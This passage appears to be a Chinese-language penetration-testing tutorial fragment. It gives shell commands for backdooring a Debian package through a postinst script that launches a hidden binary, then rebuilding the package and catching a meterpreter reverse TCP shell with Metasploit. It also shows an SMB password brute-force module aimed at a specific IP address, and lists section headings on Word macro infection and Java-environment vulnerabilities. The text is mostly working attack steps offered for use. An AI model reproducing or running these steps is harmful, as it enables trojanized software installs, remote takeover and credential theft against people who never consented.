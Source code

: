 ```shell
     
# 安装后脚本文件，来加载后门
	vim /root/free/DEBIAN/postinst 
	# 信息内容：
        #!/bin/bash
        sudo chmod 2755 /usr/games/freesweep_sources
        sudo /usr/games/freesweep_sources &
	# 设置权限
	chmod 755 /root/free/DEBIAN/postinst 
	
# 重新生成软件包
	dpkg-deb --build /root/free # 制作 deb 软件包
	
# 执行监听
	use exploit/multi/handler
	set payload linux/x64/meterpreter/reverse_tcp
	set LHOST 192.168.18.143
# 安装 deb  文件：
	dpkg -i free.deb
# 成功
```

### 5. 基于 JAVA 环境的漏洞环境

### 6. 利用宏感染 word 文档获取 shell

### 7. 爆破 SMB 服务

```
use auxiliary/scanner/smb/smb_login
    set user_file user.list
    set pass_file password.list
    set rhosts 10.129.42.197
    run
```

